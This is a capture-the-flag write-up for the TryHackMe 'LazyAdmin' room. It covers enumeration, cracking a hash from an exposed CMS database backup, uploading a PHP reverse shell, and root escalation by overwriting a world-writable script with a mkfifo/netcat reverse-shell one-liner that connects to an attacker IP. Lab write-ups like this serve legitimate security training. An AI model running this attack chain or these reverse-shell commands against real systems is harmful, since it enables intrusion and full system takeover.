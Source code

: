 # LazyAdmin - TryHackMe Report

![Banner](./Screenshots/banner.png)

## Target Information
- **Name:** [LazyAdmin](https://tryhackme.com/room/lazyadmin)
- **Platform:** TryHackMe
- **Difficulty:** Easy
- **Creator:** [MrSeth6797](https://tryhackme.com/p/MrSeth6797)

This box challenges you to exploit a vulnerable web application, gain initial access through a compromised CMS, and escalate privileges by exploiting misconfigured permissions. Test your enumeration, web exploitation, and privilege escalation skills in this beginner-friendly room.

---

## Enumeration

### **Nmap Scan**

```bash
nmap -sS -sC -sV -T4 -p- 10.10.213.231 -oN /home/kali/boxes/lazyadmin/nmap.txt
```

**Flags Explained:**
- `-sS`: SYN Scan (stealth)
- `-sC`: Run default scripts
- `-sV`: Version detection
- `-T4`: Aggressive timing
- `-p-`: Scan all 65,535 ports
- `-oN`: Save output to a file

![Nmap Scan](./Screenshots/nmap.png)

**Results:** Ports **22 (SSH)** and **80 (HTTP)** are open.  

---

### **Gobuster - Directory Enumeration**

```bash
gobuster dir -u http://10.10.213.231 -w /usr/share/wordlists/dirb/common.txt -t 50 -x php,html,xml -o /home/kali/boxes/lazyadmin/gobuster.txt
```

**Flags Explained:**
- `-w`: Wordlist used for brute-forcing
- `-t`: Number of threads
- `-x`: File extensions searched (.php, .html, .xml)
- `-o`: Output file

![Gobuster Scan](./Screenshots/gobuster.png)

**Findings:**
- **`/content`** → Leads to a **SweetRice CMS** installation.
- **`/content/as`** → **Login page** found.
- **`/content/inc/mysql_backup/`** → Downloadable MySQL backup file.

![SweetRice Login](./Screenshots/sweet_rice_login.png)
![/SQL Backup](./Screenshots/mysqlbackup.png)

---

## Exploitation

### **Hash Identification & Cracking**

Extracted a **credential hash** from the MySQL backup file:

![/SQL Hash](./Screenshots/sql_backup.png)

```bash
haiti [hash]
```

**Result:** Hash identified as **MD5**.

Cracked using **Hashcat**:

```bash
hashcat -m 0 [hash] /usr/share/wordlists/rockyou.txt
```

**Password Recovered:** ✅

![Hash Cracked](./Screenshots/hash_cracked.png)

---

## Gaining Access

- **SSH login failed** with recovered credentials.
- **Successfully logged into SweetRice CMS Admin Panel.**

![CMS Login](./Screenshots/cms_login.png)

Uploaded a **reverse PHP shell** via the **theme editor**:

![Reverse PHP Shell](./Screenshots/reverse_php_shell.png)

Set up a **Netcat listener**:

```bash
nc -lvnp 4444
```

Executed shell payload → **Reverse shell obtained!**

![Reverse Shell Executed](./Screenshots/reverse+shell_exec.png)

---

## **Post-Exploitation: Basic Enumeration**

Upgraded shell for better usability:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

![Stable Shell](./Screenshots/stable_shell.png)

Performed system enumeration:

```bash
whoami && id
uname -a
cat /etc/os-release
sudo -l
```

**Findings:**
- User: `www-data`
- OS: Ubuntu 16.04.6 LTS
- Kernel: 4.15.0-70-generic
- **Sudo Privileges:**
  - `(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl`

This privilege allows executing the `backup.pl` script as **root** without a password, presenting a potential **privilege escalation** path.

![/System Info](./Screenshots/system_info.png)
![Sudo Permissions](./Screenshots/sudo-l1.png)

---

## **Privilege Escalation**

Located **backup.pl** and **user.txt**:

```bash
cd /home/itguy
ls -la
cat user.txt
```

![/User Flag](./Screenshots/flag1.png)

Found **backup.pl** executing `/etc/copy.sh`:

```bash
cat backup.pl
```

```bash
#!/usr/bin/perl
system("sh", "/etc/copy.sh");
```

Checked **copy.sh** permissions → **Writable by others!**

```bash
ls -la /etc/copy.sh
```

```
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

Injected a reverse shell payload:

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP Address] 6666 >/tmp/f' > /etc/copy.sh
```

![Modified Copy.sh](./Screenshots/reverse_shell2.png)

Set up Netcat listener:

```bash
nc -lvnp 6666
```

Executed backup script to trigger shell:

```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```

![Privilege Escalation](./Screenshots/backuppl.png)

Successfully gained **root access**!

```bash
whoami && id
```

![Root Access](./Screenshots/id_root.png)

---

### **Root Flag**

```bash
cd /root
ls -la
cat root.txt
```

```
THM{REDACTED}
```

![Root Flag](./Screenshots/rootflag.png)

---

## **Tools Used**

- **Nmap** → Network scanning
- **Gobuster** → Directory enumeration
- **Hashcat** → Password cracking
- **[Pentest Monkey Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)** → Gaining access
- **Linux Enumeration Commands** → Privilege escalation

---

## **Conclusion**

### **Successfully Achieved:**
- Gained **initial access** via SweetRice CMS.
- Escalated privileges through misconfigured sudo permissions.
- Captured **both user and root flags**.

### **Key Security Issues Identified:**
- **Weak Password Management:** The `manager` account used a weak password, easily cracked.
- **Misconfigured Permissions:** `backup.pl` allowed privilege escalation due to incorrect sudo permissions.
- **Lack of Input Sanitization:** Uploading and executing a PHP shell highlights the importance of input validation.

### **Final Thoughts**
- **Always enforce strong password policies.**
- **Restrict script execution permissions.**
- **Sanitise and validate user inputs to prevent web-based attacks.**

---
